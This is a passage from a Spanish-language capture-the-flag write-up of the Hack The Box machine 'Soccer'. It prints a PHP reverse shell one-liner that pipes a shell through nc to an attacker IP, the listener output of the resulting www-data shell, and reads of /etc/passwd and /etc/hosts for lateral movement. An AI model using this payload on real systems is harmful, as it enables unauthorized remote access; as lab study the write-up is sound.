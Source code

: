 Reverse shell:
```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 9443 >/tmp/f"); ?>
```   
Maquina atacante:
```
focab0r@arsenium:~$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.194] 52628
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
soccer
$  
```

### Lateral Movement ###

Hemos entrado a la maquina como el usuario **www-data**, que es un usuario de servicio. Por lo tanto, hay que realizar un movimiento lateral a un usuario de sistema. Mirando en el archivo `/etc/passwd` los usuarios con `/bin/bash`, los posibles objetivos son:
```
www-data@soccer:~$ cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
player:x:1001:1001::/home/player:/bin/bash
```
Como las principales tecnicas de escalado de privilegios no funcionan, pasamos a enumerar archivos. En el `/etc/hosts` encontramos un nuevo subdominio, el cual, tras añadirlo en el `/etc/hosts` de nuestro sistema, podemos acceder desde el navegador.
```
www-data@soccer:~$ cat /etc/hosts

127.0.0.1	localhost	soccer	soccer.htb	soc-player.soccer.htb
127.0.1.1	ubuntu-focal	ubuntu-focal
```
El nuevo subdominio es similar a la pagina principal, pero tiene tambien las funciones de registrarse, loguearse y ver los partidos. Tras registrase y acceder al nuevo usuario, aparece un apartado donde podemos insertar un numero de ticket, y la aplicacion devuelve si existe o no. Como no parece vulnerable a inyecciones, observamos el codigo fuente, donde vemos que se hace una peticion a un **WebSocket** en el puerto 9091, pasandole el parametro "id":
```
<...SNIP...>

var ws = new WebSocket("ws://soc-player.soccer.htb:9091");

<...SNIP...>

function sendText() {
    var msg = input.value;
    if (msg.length > 0) {
        ws.send(JSON.stringify({
            "id": msg
        }))
    }
    else append("????????")
}

<...SNIP...>
```
